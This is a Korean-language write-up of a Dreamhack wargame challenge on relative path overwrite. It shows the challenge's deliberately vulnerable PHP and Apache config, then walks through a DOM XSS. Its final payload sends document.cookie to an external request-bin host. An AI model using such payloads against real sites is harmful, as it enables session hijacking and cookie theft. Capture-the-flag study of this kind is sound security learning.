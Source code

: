 ## Relative Path Overwrite Advanced
<hr style="border-top: 1px solid;"><br>

변경된 부분

+ vuln.php

```php
<script src="filter.js"></script>
<pre id=param></pre>
<script>
    var param_elem = document.getElementById("param");
    var param = `<?php echo str_replace("`", "", $_GET['param']); ?>`;
    if (typeof filter === 'undefined') {
        param = "nope !!";
    }
    else {
        for (var i = 0; i < filter.length; i++) {
            if (param.toLowerCase().includes(filter[i])) {
                param = "nope !!";
                break;
            }
        }
    }

    param_elem.innerHTML = param;
</script>
```

<br>

+ ```000-default.conf```

```
RewriteEngine on
RewriteRule ^/(.*)\.(js|css)$ /static/$1 [L]

ErrorDocument 404 /404.php
```

<br>

+ 404.php

```php
<?php 
    header("HTTP/1.1 200 OK");
    echo $_SERVER["REQUEST_URI"] . " not found."; 
?>
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

rewriterule을 보면 404 에러가 뜨면 404.php가 해당 페이지에서 적용된다. 

예를 들어, ```/test.php```로 가면 404 error가 뜨므로 404.php가 적용되어서 ```/test.php not found.```라고 출력된다.

<br>

filter.js 코드를 불러오지 못하면 param=nope로 설정되어 DOM XSS를 할 수 없다.

그러나 문제는 static 폴더 안에 있는 filter.js가 안불러와져서 다른 방법을 이용해야 한다. (의도된 거?)

우선 확인을 해보았다.

<br>

+ ```http://host1.dreamhack.games:11710/?page=vuln```

![image](https://user-images.githubusercontent.com/52172169/164959478-731ae3e8-3877-48d2-afd8-4c180bb0f823.png)

<br>

+ ```http://host1.dreamhack.games:11710/index.php/?page=vuln```

![image](https://user-images.githubusercontent.com/52172169/164959492-aff15465-1ba4-48f4-8ceb-3c7449abb5a6.png)

<br>

그러면 filter.js가 로드되긴 하지만 404.php 코드가 적용되면서 위에 처럼 뜨게 된다.

중요한 점은 filter.js 자바스크립트 코드가 일단 로드된다는 점이다. 즉, 에러만 없다면 실행이 된다는 것이다.

**강의 내용에서 ```자바스크립트는 로드하는 코드 내에서 에러가 발생할 경우, 전체 코드를 실행하지 않기 때문에 문법 에러가 발생하지 않도록 신경써야 한다```를 기억해야 한다.**

<br>

+ ```http://host1.dreamhack.games:11710/index.php/;alert();///?page=vuln```

![image](https://user-images.githubusercontent.com/52172169/164959760-41812882-4f0c-4b70-98f1-3db5e1fe8a00.png)

<br>

위에 처럼 입력하면 alert가 실행된다. 

payload
: ```index.php/;location.href='https://iaxigfe.request.dreamhack.games/'+document.cookie;//?page=vuln```

<br>

single quote로 감싸면 인코딩을 안하는데 double quote는 인코딩을 하여 적용되지 않게 된다. 

URL 인코딩
: <a href="https://developers.google.com/maps/url-encoding?hl=ko" target="_blank">developers.google.com/maps/url-encoding?hl=ko</a>

<br><br>
<hr style="border: 2px solid;">
<br><br>
